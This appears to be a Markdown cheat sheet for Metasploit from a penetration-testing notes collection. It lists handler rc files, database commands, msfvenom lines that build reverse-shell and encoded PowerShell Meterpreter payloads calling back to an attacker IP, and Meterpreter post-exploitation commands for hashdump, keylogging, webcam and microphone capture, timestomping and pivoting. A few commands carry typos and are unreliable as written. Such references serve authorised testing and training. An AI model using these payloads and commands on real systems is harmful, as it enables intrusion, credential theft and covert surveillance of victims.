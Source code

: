 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Example rc file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run an rc file | <code> Resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Useage** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn]<br>
use auxiliary/discovery/udp_sweep<br>
db_nmap<br>
Manually | hosts --add/--delete [host]<br>
services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br>
notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br>
host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br>
vulns -S RPC <br>
vulns -P 445

> **MSFVenom**

Example | msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe
Powershell Reflection | msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt
Powershell Command | msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd
Help | ./app/msfvenom, ./app/msfvenom --help-formats

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap







